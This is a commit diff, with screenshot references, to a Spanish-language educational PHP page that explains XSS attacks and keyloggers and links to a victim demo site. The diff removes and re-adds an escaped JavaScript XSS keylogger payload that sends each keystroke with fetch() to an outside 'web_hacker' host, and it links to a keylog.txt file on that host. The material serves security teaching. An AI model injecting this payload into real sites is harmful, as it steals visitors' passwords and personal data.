

Before and after one commit to canolasoft/9.Seguridad_Ataque_XSS, a PHP site: page / in a window 390 px wide; the page is wider, and only the part inside the window is pictured. Shown: that part at 83% size. Before the commit the page ends 1854 px from the top of that part, so only its background shows below. Run offline with PHP 8.4, Linux system fonts and the light colour scheme.

Commit message:
cambios
- mejora responsive
- mejora redacción
- añadido favicon

```diff
--- a/index.php
+++ b/index.php
@@ -5,8 +5,8 @@
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
     <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.2.3/dist/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-rbsA2VBKQhggwzxH7pPCaAqO46MgnOM80zW1RWuH61DGLwZJEdK2Kadq2F9CUG65" crossorigin="anonymous">
     <script src="https://cdn.jsdelivr.net/npm/bootstrap@5.2.3/dist/js/bootstrap.bundle.min.js" integrity="sha384-kenU1KFdBIe4zVF0s0G1M5b4hcpxyD9F7jL+jjXkk+Q2h455rYXK/7HAuoJl+0I4" crossorigin="anonymous"></script>
+    <link rel="icon" type="image/x-icon" href="favicon.png">
     <title>Ciberseguridad</title>
-
     <style>
         em{
             background-color: #c9c9c9ff;
@@ -14,12 +14,20 @@
             display: block;
             font-family: monospace;
             padding: 10px;
+            overflow-x: auto;           /* Agrega scroll horizontal si es necesario */
+            max-width: 100%;            /* Limita el ancho al contenedor padre */
+            box-sizing: border-box;     /* Incluye el padding en el ancho */
         }
     </style>
 </head>
 <body class="bg-dark">
     <div class="container mt-5 bg-light rounded p-5 col-lg-8">
-        <h1 class="mb-4">Seguridad: Ataque XSS</h1>
+        <h1 class="mb-4">
+            <svg xmlns="http://www.w3.org/2000/svg" width="30" height="30" fill="currentColor" class="bi bi-lock-fill" viewBox="0 0 16 16">
+                <path fill-rule="evenodd" d="M8 0a4 4 0 0 1 4 4v2.05a2.5 2.5 0 0 1 2 2.45v5a2.5 2.5 0 0 1-2.5 2.5h-7A2.5 2.5 0 0 1 2 13.5v-5a2.5 2.5 0 0 1 2-2.45V4a4 4 0 0 1 4-4m0 1a3 3 0 0 0-3 3v2h6V4a3 3 0 0 0-3-3"/>
+            </svg>
+            Seguridad: Prueba de ataque XSS
+        </h1>
         <p>
             <svg xmlns="http://www.w3.org/2000/svg" width="20" height="20" fill="currentColor" class="bi bi-bullseye" viewBox="0 0 16 16">
                 <path d="M8 15A7 7 0 1 1 8 1a7 7 0 0 1 0 14m0 1A8 8 0 1 0 8 0a8 8 0 0 0 0 16"/>
@@ -27,32 +35,21 @@
                 <path d="M8 11a3 3 0 1 1 0-6 3 3 0 0 1 0 6m0 1a4 4 0 1 0 0-8 4 4 0 0 0 0 8"/>
                 <path d="M9.5 8a1.5 1.5 0 1 1-3 0 1.5 1.5 0 0 1 3 0"/>
             </svg>
-            Objetivo: Simular un ataque XSS a aun sitio web vulnerable para instalar un keylogger y obtener información sensible.
+            Objetivo: Simular un ataque de inyección de código (XSS) a aun sitio web vulnerable para instalar un keylogger y obtener información sensible.
         </p>
         <p>
-            <svg xmlns="http://www.w3.org/2000/svg" width="20" height="20" fill="currentColor" class="bi bi-lock-fill" viewBox="0 0 16 16">
-                <path fill-rule="evenodd" d="M8 0a4 4 0 0 1 4 4v2.05a2.5 2.5 0 0 1 2 2.45v5a2.5 2.5 0 0 1-2.5 2.5h-7A2.5 2.5 0 0 1 2 13.5v-5a2.5 2.5 0 0 1 2-2.45V4a4 4 0 0 1 4-4m0 1a3 3 0 0 0-3 3v2h6V4a3 3 0 0 0-3-3"/>
+            <svg xmlns="http://www.w3.org/2000/svg" width="20" height="20" fill="currentColor" class="bi bi-exclamation-triangle-fill" viewBox="0 0 16 16">
+                <path d="M8.982 1.566a1.13 1.13 0 0 0-1.96 0L.165 13.233c-.457.778.091 1.767.98 1.767h13.713c.889 0 1.438-.99.98-1.767zM8 5c.535 0 .954.462.9.995l-.35 3.507a.552.552 0 0 1-1.1 0L7.1 5.995A.905.905 0 0 1 8 5m.002 6a1 1 0 1 1 0 2 1 1 0 0 1 0-2"/>
             </svg>
             ¿Qué es un <strong>Ataque XSS</strong>?
             <br>
             Un ataque XSS (Cross-Site Scripting) es un tipo de vulnerabilidad de seguridad web que permite a un atacante inyectar código malicioso (generalmente scripts) en un sitio web legítimo para que se ejecute en el navegador del usuario que visita el sitio. Los atacantes usan XSS para robar información sensible como las cookies de sesión, redirigir a los usuarios a sitios maliciosos, desfigurar páginas o robar credenciales.
         </p>
         <p>
-            <svg xmlns="http://www.w3.org/2000/svg" width="20" height="20" fill="currentColor" class="bi bi-exclamation-triangle-fill" viewBox="0 0 16 16">
-                <path d="M8.982 1.566a1.13 1.13 0 0 0-1.96 0L.165 13.233c-.457.778.091 1.767.98 1.767h13.713c.889 0 1.438-.99.98-1.767zM8 5c.535 0 .954.462.9.995l-.35 3.507a.552.552 0 0 1-1.1 0L7.1 5.995A.905.905 0 0 1 8 5m.002 6a1 1 0 1 1 0 2 1 1 0 0 1 0-2"/>
+            <svg xmlns="http://www.w3.org/2000/svg" width="20" height="20" fill="currentColor" class="bi bi-incognito" viewBox="0 0 16 16">
+                <path fill-rule="evenodd" d="m4.736 1.968-.892 3.269-.014.058C2.113 5.568 1 6.006 1 6.5 1 7.328 4.134 8 8 8s7-.672 7-1.5c0-.494-1.113-.932-2.83-1.205l-.014-.058-.892-3.27c-.146-.533-.698-.849-1.239-.734C9.411 1.363 8.62 1.5 8 1.5s-1.411-.136-2.025-.267c-.541-.115-1.093.2-1.239.735m.015 3.867a.25.25 0 0 1 .274-.224c.9.092 1.91.143 2.975.143a30 30 0 0 0 2.975-.143.25.25 0 0 1 .05.498c-.918.093-1.944.145-3.025.145s-2.107-.052-3.025-.145a.25.25 0 0 1-.224-.274M3.5 10h2a.5.5 0 0 1 .5.5v1a1.5 1.5 0 0 1-3 0v-1a.5.5 0 0 1 .5-.5m-1.5.5q.001-.264.085-.5H2a.5.5 0 0 1 0-1h3.5a1.5 1.5 0 0 1 1.488 1.312 3.5 3.5 0 0 1 2.024 0A1.5 1.5 0 0 1 10.5 9H14a.5.5 0 0 1 0 1h-.085q.084.236.085.5v1a2.5 2.5 0 0 1-5 0v-.14l-.21-.07a2.5 2.5 0 0 0-1.58 0l-.21.07v.14a2.5 2.5 0 0 1-5 0zm8.5-.5h2a.5.5 0 0 1 .5.5v1a1.5 1.5 0 0 1-3 0v-1a.5.5 0 0 1 .5-.5"/>
             </svg>
-            <strong>Código malicioso</strong>
-            <br>
-            Este <strong>keylogger</strong> se inyecta en el navegador de la víctima y registra cada pulsación de tecla, enviando la información a un servidor controlado por el atacante.
-            <br>
-            Las teclas que presionen los visitantes serán registradas en el siguiente archivo <a href="web_hacker/keylog.txt" target="_blank">keylog.txt</a> que se encuentra en la web del atacante.
-            <em>
-            <?php
-                echo htmlspecialchars(
-                    "<script>document.onkeypress = function(evt) {evt = evt || window.event;const key = String.fromCharCode(evt.charCode);if (key) {const param = encodeURI(key);fetch('../web_hacker/index.php', {method: 'POST',headers: {'Content-type': 'application/x-www-form-urlencoded'},body: 'key=' + param});}};</script>"
-                );
-            ?>
-            </em>
+            La prueba consiste en aprovechar una vulnerabilidad del sitio web de la víctima y mediante <strong>inyección JavaScript</strong> en el formulario de comentarios se coloca un fragmento de código malicioso (keylogger), que luego es ejecutado por el sitio al mostrar los comentarios.
         </p>
         <p>
             <svg xmlns="http://www.w3.org/2000/svg" width="20" height="20" fill="currentColor" class="bi bi-keyboard" viewBox="0 0 16 16">
@@ -61,20 +58,29 @@
             </svg>
             ¿Qué es un <strong>keylogger</strong>?
             <br>
-            Un keylogger es un software o dispositivo que registra secretamente cada pulsación de teclas en una computadora o dispositivo móvil, capturando contraseñas, información personal y datos bancarios para enviarlos a un tercero.
-            <br>
-            Son una forma peligrosa de spyware que puede usarse para cometer fraude, robo de identidad y otros delitos.
+            Un keylogger es un software o dispositivo que registra secretamente cada pulsación de teclas en una computadora o dispositivo móvil, capturando contraseñas, información personal y datos bancarios para enviarlos a un tercero. Son una forma peligrosa de spyware que puede usarse para cometer fraude, robo de identidad y otros delitos.
         </p>
         <p>
-            <svg xmlns="http://www.w3.org/2000/svg" width="20" height="20" fill="currentColor" class="bi bi-incognito" viewBox="0 0 16 16">
-                <path fill-rule="evenodd" d="m4.736 1.968-.892 3.269-.014.058C2.113 5.568 1 6.006 1 6.5 1 7.328 4.134 8 8 8s7-.672 7-1.5c0-.494-1.113-.932-2.83-1.205l-.014-.058-.892-3.27c-.146-.533-.698-.849-1.239-.734C9.411 1.363 8.62 1.5 8 1.5s-1.411-.136-2.025-.267c-.541-.115-1.093.2-1.239.735m.015 3.867a.25.25 0 0 1 .274-.224c.9.092 1.91.143 2.975.143a30 30 0 0 0 2.975-.143.25.25 0 0 1 .05.498c-.918.093-1.944.145-3.025.145s-2.107-.052-3.025-.145a.25.25 0 0 1-.224-.274M3.5 10h2a.5.5 0 0 1 .5.5v1a1.5 1.5 0 0 1-3 0v-1a.5.5 0 0 1 .5-.5m-1.5.5q.001-.264.085-.5H2a.5.5 0 0 1 0-1h3.5a1.5 1.5 0 0 1 1.488 1.312 3.5 3.5 0 0 1 2.024 0A1.5 1.5 0 0 1 10.5 9H14a.5.5 0 0 1 0 1h-.085q.084.236.085.5v1a2.5 2.5 0 0 1-5 0v-.14l-.21-.07a2.5 2.5 0 0 0-1.58 0l-.21.07v.14a2.5 2.5 0 0 1-5 0zm8.5-.5h2a.5.5 0 0 1 .5.5v1a1.5 1.5 0 0 1-3 0v-1a.5.5 0 0 1 .5-.5"/>
+            <svg xmlns="http://www.w3.org/2000/svg" width="20" height="20" fill="currentColor" class="bi bi-bug" viewBox="0 0 16 16">
+                <path d="M4.355.522a.5.5 0 0 1 .623.333l.291.956A5 5 0 0 1 8 1c1.007 0 1.946.298 2.731.811l.29-.956a.5.5 0 1 1 .957.29l-.41 1.352A5 5 0 0 1 13 6h.5a.5.5 0 0 0 .5-.5V5a.5.5 0 0 1 1 0v.5A1.5 1.5 0 0 1 13.5 7H13v1h1.5a.5.5 0 0 1 0 1H13v1h.5a1.5 1.5 0 0 1 1.5 1.5v.5a.5.5 0 1 1-1 0v-.5a.5.5 0 0 0-.5-.5H13a5 5 0 0 1-10 0h-.5a.5.5 0 0 0-.5.5v.5a.5.5 0 1 1-1 0v-.5A1.5 1.5 0 0 1 2.5 10H3V9H1.5a.5.5 0 0 1 0-1H3V7h-.5A1.5 1.5 0 0 1 1 5.5V5a.5.5 0 0 1 1 0v.5a.5.5 0 0 0 .5.5H3c0-1.364.547-2.601 1.432-3.503l-.41-1.352a.5.5 0 0 1 .333-.623M4 7v4a4 4 0 0 0 3.5 3.97V7zm4.5 0v7.97A4 4 0 0 0 12 11V7zM12 6a4 4 0 0 0-1.334-2.982A3.98 3.98 0 0 0 8 2a3.98 3.98 0 0 0-2.667 1.018A4 4 0 0 0 4 6z"/>
             </svg>
-            El ataque consiste en aprovechar una vulnerabilidad del sitio web de la víctima y mediante <strong>inyección JavaScript</strong> en el formulario de comentarios se coloca un fragmento de código malicioso (keylogger), que luego es ejecutado por el sitio al mostrar los comentarios.
+            Código malicioso
+            <br>
+            Una vez este <i>keylogger</i> es inyectado en la caja de comentarios del sitio web de la víctima, este registra cada pulsación de tecla que realicen los visitantes del sitio y envía la información a un servidor controlado por el atacante.
+            <br>
+            <em>
+            <?php
+                echo htmlspecialchars(
+                    "<script>document.onkeypress = function(evt) {evt = evt || window.event;const key = String.fromCharCode(evt.charCode);if (key) {const param = encodeURI(key);fetch('https://proyectosfm1.x10host.com/Ejemplos/AtaqueXSS/web_hacker/index.php', {method: 'POST',headers: {'Content-type': 'application/x-www-form-urlencoded'},body: 'key=' + param});}};</script>"
+                );
+            ?>
+            </em>
+            Las teclas que presionen los visitantes serán registradas en el siguiente archivo <a href="https://proyectosfm1.x10host.com/Ejemplos/AtaqueXSS/web_hacker/keylog.txt" target="_blank"><strong>keylog.txt</strong></a> que se encuentra en la web del atacante.
         </p>
         <hr>
         <a href="https://www.youtube.com/watch?v=w8pwVx_kIig" target="_blank">Fuente</a>
         <div class="row">
-            <a class="btn btn-dark mx-auto col-md-4 mt-5" href="web_victima/index.php">Iniciar</a>
+            <a class="btn btn-dark mx-auto col-md-4 mt-5" href="web_victima/index.php">Iniciar prueba</a>
         </div>
     </div>
 </body>
```
Also changed, not shown: favicon.png (added).
